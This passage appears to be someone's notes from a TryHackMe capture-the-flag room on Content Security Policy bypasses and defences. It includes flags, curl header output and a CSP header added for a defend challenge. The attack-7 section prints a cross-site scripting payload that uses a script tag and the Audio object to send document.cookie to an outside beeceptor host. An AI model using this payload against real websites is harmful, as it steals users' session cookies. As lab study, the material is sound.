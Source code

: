 
*THM{Trust_N0_CDN}*

Flag for attack-7  

The 404 error looks kinda weird...

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.245.72.50:3007/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src 'none'; media-src *; style-src 'self'; script-src 'self'
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-EZI6yduyqDsJUnzCnKoXDx69AdA"
Date: Thu, 12 Jan 2023 04:43:47 GMT
Connection: keep-alive

<script src="/'; new Audio('https://witty.free.beeceptor.com/'+document.cookie);'"></script>

GET `/flag=THM%7BTh1s_4udio_S0unds_N1ce%7D`

429 0.0s a few seconds ago

flag=THM{Th1s_4udio_S0unds_N1ce}

This appears to be a script that attempts to inject malicious code into a website. The script attempts to load an audio file from a remote server, and appends the current user's cookies to the URL. The script could potentially be used to steal user data, or execute other malicious actions. It's important not to execute this script or to be careful when visiting websites that use it.


```


*THM{Th1s_4udio_S0unds_N1ce}*


### CSP Sandbox :: Defend challenges

To deploy the machine, go to the **CSP Sandbox** task.  

**Defend** challenges require you to defend the website from XSS attacks by creating a CSP header that blocks them, whilst allowing the legitimate scripts to execute.

Answer the questions below

![[Pasted image 20230112131231.png]]

What is the flag for defend-1?  

```
http://54.229.103.59:3008/defend-1.js

const defend1Real = true;
console.log('__defend-1_REAL=' + defend1Real);

┌──(kali㉿kali)-[~/nappy]
└─$ curl http://54.229.103.59:3008/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 559
ETag: W/"22f-UkwilPDk3jkDrMwbmYqT0VEU9E0"
Date: Thu, 12 Jan 2023 18:14:11 GMT
Connection: keep-alive

adding: Content-Security-Policy: script-src 'self'
```